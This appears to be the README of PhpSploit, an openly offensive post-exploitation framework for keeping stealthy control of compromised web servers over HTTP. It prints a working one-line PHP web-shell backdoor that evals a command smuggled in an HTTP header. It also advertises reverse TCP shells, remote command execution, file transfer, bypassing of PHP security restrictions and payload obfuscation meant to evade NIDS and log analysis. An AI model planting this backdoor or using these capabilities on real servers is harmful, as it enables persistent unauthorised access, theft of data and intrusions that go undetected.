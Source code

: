 ### PhpSploit: *Furtive post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![Build Status](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

---------------------------------------------------------------------
#### Features ####

* **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

* **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common *PHP security restrictions bypass*
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to *bypass NIDS*
    - http/https/socks4/socks5 **Proxy support**

* **Convenient**: A robust interface with many crucial features
    - Detailed help for any command or option (type `help`)
    - *Cross-platform* on both the client and the server.
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature & persistent history
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a *polymorphic mode*
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


---------------------------------------------------------------------
#### Supported platforms (as attacker): ####
* GNU/Linux
* Mac OS X

#### Supported platforms (as target): ####
* GNU/Linux
* BSD Like
* Mac OS X
* Windows NT


## [Get started now !] ##


[picture]: data/img/phpsploit-demo.png
[Get started now !]: https://github.com/nil0x42/phpsploit/wiki
